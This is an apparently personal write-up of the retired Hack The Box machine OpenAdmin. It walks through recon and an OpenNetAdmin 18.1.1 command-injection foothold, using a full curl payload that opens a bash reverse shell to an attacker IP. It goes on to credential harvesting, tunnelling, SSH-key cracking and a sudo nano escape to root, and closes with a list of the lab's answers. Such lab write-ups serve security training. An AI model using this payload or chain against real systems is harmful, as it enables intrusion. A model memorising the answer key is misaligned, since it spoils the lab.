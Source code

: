 ## - Retired Linux Machine / OpenAdmin -
- [+] :  Target IP
      >> 10.10.10.171

### Adventure Mode

## Recon
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

- [+] :  port 80 shows apache default page , lemme add openadmin.htb in dns and try again 
      >> same output .

- [+] :  dirbusting http://openadmin.htb/music/ && http://openadmin.htb/ona/
      >> directory opennetadmin open and running an old version 18.1.1
## foothold

```bash
searchsploit opennetadmin       
OpenNetAdmin 18.1.1 - Command Injection Explo | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution   | php/webapps/47691.sh
```
- [+] :  ./exploit.sh http://10.10.10.171/ona/ [make sure to write the full path otherwise you'll get redirect 301]

- [+] :  Crafted curl
      >> curl --silent -L -d "xajax=window_submit&xajaxr=$(date +%s%3N)&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo%20\"BEGIN\";%2Fbin%2Fbash+-c+%27%2Fbin%2Fbash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.4%2F4444+0%3E%261%27;echo%20\"END\"&xajaxargs[]=ping" "http://openadmin.htb/ona/" [exploiting manually for stable revshell ]
 
## www-data recon
- [+] :  mysql open , checking for some password
      >> jimmy:n1nj4W4rri0R 
```php
		db_type' => 'mysqli',
			'db_host' => 'localhost',
			'db_login' => 'ona_sys',
			'db_passwd' => 'n1nj4W4rri0R!',
			'db_database' => 'ona_default',
			'db_debug' => false,
```
        
 

## Jimmy recon

- [1] : Jimmy can access a Vhost folder called internal . 
      >> can find another password "Revealed" for jimmy in index.php
      >> in main.php , it prints the id_rsa for joanna . 
      >> cant access it , so I need to chisel .

- [2] : internal.openadmin.htb running on apache 
      >> /etc/apache2/sites-enabled/internal.conf shows internal runnong on port 52846

- [3] : client http://10.10.14.4:3636 R:52846:127.0.0.1:52846

- [4] : ssh2john.py id_rsa > hash to extract hash from ssh key 
      >> john hash --wordlist=rockyou.txt ->> "bloodninjas"
      
## Root
- [1] : sudo -l shows /bin/nano into /opt/priv 
```bash
		sudo nano
		^R^X
		reset; sh 1>&0 2>&0
```

### Guided Mode

## Tasks 

- [+] :  There are three directories on the webserver. /artwork, sierra, and what else?
      >> /music

- [+] :  On the page at /music, there is a link that doesn't point to another link on /music, but rather an administration tool. What is the relative path?
      >> /ona

- [+] :  What is the version number of OpenNetAdmin that runs on the remote machine?
      >> 18.1.1

- [+] :  What's the password of the user jimmy?
      >> n1nj4W4rri0R!

- [+] :  What's the name of the virtual host running under user "joanna"?
      >> internal.openadmin.htb

- [+] :  What's the password for joanna on the internal vhost?
      >> Revealed

- [+] :  What's the password for Joannas's private key?
      >> bloodninjas

- [+] :  What is the name of the binary (without path) that Joanna can run as root?
      >> nano


